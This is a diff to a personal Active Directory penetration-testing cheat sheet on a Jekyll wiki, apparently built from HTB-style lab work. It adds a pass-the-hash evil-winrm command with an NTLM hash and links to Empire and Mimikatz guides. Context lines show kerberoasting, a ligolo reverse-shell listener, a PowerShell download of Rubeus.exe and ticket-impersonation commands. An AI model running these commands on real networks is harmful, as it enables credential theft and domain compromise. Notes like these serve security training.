

Before and after one commit to qwutony/qwutony.github.io, a Jekyll site: the page built from _wiki/003-active-directory-penetration-testing.md, in a window 1280 px wide and 1400 px high, scrolled down 4996 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 003-active-directory-penetration-testing.md

````diff
--- a/_wiki/003-active-directory-penetration-testing.md
+++ b/_wiki/003-active-directory-penetration-testing.md
@@ -137,6 +137,11 @@ hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.
 net rpc password AUDIT2020 -U BLACKFIELD\\support -S BLACKFIELD.local (prompts new password)
 ```
 
+[Pass The Hash]
+```
+evil-winrm -u James -H 8af1903d3c80d3552a84b6ba296db2ea -i 192.168.110.53 (obtain through mimikatz dump)
+```
+
 ## Credential Dumping
 **[LSASS Dump - lsass.DMP](https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf)**
 
@@ -218,7 +223,6 @@ start
 sudo ip route add 192.168.110.0/24 dev ligolo
 
 listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444 (open port on DMZ machine for reverse shell)
-listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:8000 (open port on DMZ machine for file transfer)
 
 powershell -Command "Invoke-WebRequest -Uri 'http://192.168.110.51:1235/Rubeus.exe' -OutFile 'Rubeus.exe'"
 ```
@@ -227,6 +231,8 @@ powershell -Command "Invoke-WebRequest -Uri 'http://192.168.110.51:1235/Rubeus.e
   - [Advanced pivoting guide](https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5)
 
 **[Rubeus for Windows](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)**
+
+**[Pywerview - Linux AD Enumeration](https://github.com/the-useless-one/pywerview)**
 
 ```
 Rubeus.exe dump /luci:0x599ac7 /service:CIFS/dc.painters.htb /nowrap /outfile [dump to kirbi files]
@@ -247,7 +253,14 @@ OR
 getST.py -spn "cifs/dc.painters.htb" -impersonate "administrator" "painters/blake:Password123\!" -dc-ip 192.168.110.55
 ```
 
+**[Empire - Post-exploitation Framework](https://github.com/BC-SECURITY/Empire)**
+
+
 **[Mimikatz](https://github.com/gentilkiwi/mimikatz/releases)**
+
+**Additional Resources**
+  - [Mimikatz Post Exploitation Basics](https://infosecwriteups.com/post-exploitation-basics-in-active-directory-enviorment-by-hashar-mujahid-d46880974f87)**
+
 
 **[Wordlists](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/hash-cracking/#hashcat-install)**
 
````
